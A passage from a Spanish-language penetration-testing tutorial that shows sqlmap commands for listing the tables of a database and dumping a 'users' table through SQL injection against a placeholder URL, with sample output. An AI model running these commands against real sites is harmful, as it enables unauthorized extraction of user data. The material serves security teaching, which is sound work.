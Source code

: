 ```r
[*] ending @ 13:30:58 /2020-09-17/
```

En el ejemplo anterior, podemos ver que la versión de la base de datos es bastante antigua (MySQL 5.1.41 - de noviembre de 2009), y el nombre del usuario actual es `root`, mientras que el nombre de la base de datos actual es `testdb`.

Nota: El usuario 'root' en el contexto de la base de datos en la gran mayoría de los casos no tiene relación alguna con el usuario del sistema operativo "root", aparte de representar al usuario privilegiado dentro del contexto del DBMS. Esto básicamente significa que el usuario de la base de datos no debería tener restricciones dentro del contexto de la base de datos, mientras que los privilegios del sistema operativo (por ejemplo, escribir en el sistema de archivos en una ubicación arbitraria) deberían ser mínimos, al menos en los despliegues recientes. El mismo principio se aplica para el rol genérico 'DBA'.

---

## Table Enumeration

En los escenarios más comunes, después de encontrar el nombre de la base de datos actual (es decir, `testdb`), la recuperación de nombres de tablas se haría usando la opción `--tables` y especificando el nombre de la base de datos con `-D testdb`, de la siguiente manera:


```r
sqlmap -u "http://www.example.com/?id=1" --tables -D testdb

...SNIP...
[13:59:24] [INFO] fetching tables for database: 'testdb'
Database: testdb
[4 tables]
+---------------+
| member        |
| data          |
| international |
| users         |
+---------------+
```

Después de identificar el nombre de la tabla de interés, la recuperación de su contenido se puede hacer usando la opción `--dump` y especificando el nombre de la tabla con `-T users`, de la siguiente manera:


```r
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb

...SNIP...
Database: testdb

Table: users
[4 entries]
+----+--------+------------+
| id | name   | surname    |
+----+--------+------------+
| 1  | luther | blisset    |


| 2  | fluffy | bunny      |
| 3  | wu     | ming       |
| 4  | NULL   | nameisnull |
+----+--------+------------+

[14:07:18] [INFO] table 'testdb.users' dumped to CSV file '/home/user/.local/share/sqlmap/output/www.example.com/dump/testdb/users.csv'
```
